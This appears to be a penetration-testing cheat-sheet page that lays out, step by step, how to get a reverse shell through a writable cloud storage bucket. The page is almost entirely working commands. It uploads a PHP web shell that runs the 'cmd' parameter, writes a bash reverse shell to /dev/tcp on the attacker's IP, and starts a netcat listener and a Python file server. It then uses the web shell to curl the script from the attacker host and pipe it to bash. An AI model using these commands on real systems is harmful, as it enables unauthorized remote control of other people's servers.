# Reverse Shell

## For awscli

* Check if we have remote command execution

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php #Upload in the bucket
http://$url/shell.php?cmd=id #On browser, if response we have access
```
{% endcode %}

***

* Create bash file for reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash 
bash -i >& /dev/tcp/$myip/$portcat 0>&1 #Arbitrary port
```
{% endcode %}

***

* Listen with netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $portcat
```
{% endcode %}

***

* Create a server with python

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m http.server $port #Must be created at the same place where the reverse shell script is
```
{% endcode %}

***

* Make curl from local server to get reverse shell file and pass it to bash of the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/shell.php?cmd=curl%20$myip:$portpy/$shfile|bash
```
{% endcode %}

***

